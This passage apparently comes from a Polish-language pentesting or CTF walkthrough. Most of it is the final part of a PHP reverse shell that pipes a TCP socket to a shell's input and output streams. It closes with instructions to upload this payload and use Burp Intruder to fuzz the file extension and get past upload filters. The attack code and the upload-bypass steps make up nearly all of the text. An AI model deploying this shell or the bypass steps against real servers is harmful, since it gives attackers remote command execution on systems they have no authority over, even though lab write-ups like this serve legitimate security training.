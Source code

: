 ```php
	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
```

Następnie wrzućmy nasz ładunek i kliknijmy *Sumbit*. W Burpie powinien pokazać nam się żądanie  HTTP POST związany z wrzucaniem właśnie naszego pliku, przerzućmy nasze żądanie do intrudera (CTRL + I). Wyczyśmy wszystkie zaznaczone automatycznie przez Burpa parametry i ręcznie wybierzmy rozszerzenie naszego pliku, w taki sposób jak zaprezentowano poniżej:
